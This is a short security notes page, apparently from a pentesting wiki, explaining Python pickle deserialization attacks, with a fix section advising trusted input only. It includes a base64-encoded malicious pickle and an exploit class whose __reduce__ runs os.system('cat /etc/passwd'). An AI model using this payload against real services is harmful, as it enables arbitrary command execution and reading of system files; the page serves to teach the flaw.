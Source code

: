 # Pickle

## Exploitation

The example below is a vulnerable pickle code that can be exploited.

```text
import pickle

# Input can be base64 encoded of a file with it's content
user_input = "Y3Bvc2l4CnN5c3RlbQpwMAooUydjYXQgL2V0Yy9wYXNzd2QnCnAxCnRwMgpScDMKLg=="
pickle.loads(base64.b64decode(user_input))
```

If an attacker is able to create a python object with a shellcode in it's \_\_reduce\_\_ function, pickle will execute the shellcode.

This vulnerability is present in the pickle.loads\(\) function.

The following code is an exploit example to the pickle vulnerability. 

```text
import pickle

shellcode = 'cat /etc/passwd'

class Exploit(object):
    def __reduce__(self):
        return (os.system, (shellcode, ))


exploit = pickle.dumps(Exploit())
print(base64.b64encode(exploit).decode())

```

## Fix

Unfortunately there is no remediation to this issue other than only use trusted data inputs.



